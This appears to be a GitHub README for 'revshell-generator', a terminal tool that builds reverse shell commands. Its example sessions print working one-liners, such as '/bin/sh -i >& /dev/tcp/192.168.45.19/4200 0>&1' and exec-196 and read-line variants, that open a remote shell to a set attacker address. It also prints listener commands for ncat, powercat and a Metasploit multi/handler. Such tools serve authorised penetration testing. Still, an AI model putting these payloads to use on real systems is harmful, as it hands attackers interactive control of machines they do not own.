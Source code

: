 # General Information

https://pypi.org/project/revshell-generator/

A command-line reverse shell generator, 
if you got tired of visiting https://www.revshells.com/ every time you need to pop up a reverse shell,
and you want to have such a generator in your terminal.


# Installation

```bash
apt install python3 python3-pip
git clone https://github.com/cyberhexe/reverse-shell-generator
cd reverse-shell-generator
pip3 install -r requirements.txt
python3 revshellgenerator.py -h
```

Or from PyPI:
```bash
sudo apt install python3 python3-pip
sudo pip3 install revshell-generator
revshell-generator -h
```

# Usage

### Running the reverse shell generator

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> help
Documented commands (type help <topic>):
========================================g
get  help  ip  list  port  shell
>> help list
list [ reverse | listeners | shells | msfvenom ]
List the available templates, shells or listener commands.
E.g.: list shells
>> help get
get [ reverse | listeners | msfvenom ] [index]
Generate the actual command with the given options.
The first parameter specifies which type of the command it's going to be.
The [index] parameter specifies which template should be used for generating the command.
E.g.: get reverse 0
Use 'list' command for getting the index.
>>
```

### Setting reverse IP address and port

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>>  
```

Alternatively, you can provide the IP/port as script arguments for not prompting them later:
`python3 revshellgenerator.py --ip 192.168.45.19 --port 4200`

### Listing available reverse shell commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list reverse
0 - Bash -i [linux | mac]
1 - Bash 196 [linux | mac]
2 - Bash read line [linux | mac]
3 - Bash 5 [linux | mac]4 - Bash udp [linux | mac]
5 - nc mkfifo [linux | mac]6 - nc -e [linux | mac]
7 - nc.exe -e [windows]8 - nc -c [linux | mac]
9 - ncat -e [linux | mac]10 - ncat.exe -e [windows]
... truncated ...
>> 
```

*The indexes are used while choosing the command template.*

### Listing available listener commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list listeners
0 - nc
1 - ncat
2 - ncat (TLS)
3 - rlwrap + nc4 - rustcat
5 - rustcat + Command History6 - pwncat
7 - windows ConPty8 - socat
9 - socat (TTY)
10 - powercat
11 - msfconsole
>>
```

### Generating reverse shell commands

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

Alternatively, you can provide the IP/port as script arguments and call the `get reverse` command straightaway
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 4200
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

### Generating listeners commands
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 5050
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get listeners 10
powercat -l -p 5050
>> get listeners 1
ncat -lvnp 5050
>> get listeners 11
msfconsole -q -x "use multi/handler; set payload {payload}; set lhost 192.168.45.19; set lport 5050; exploit"  
```
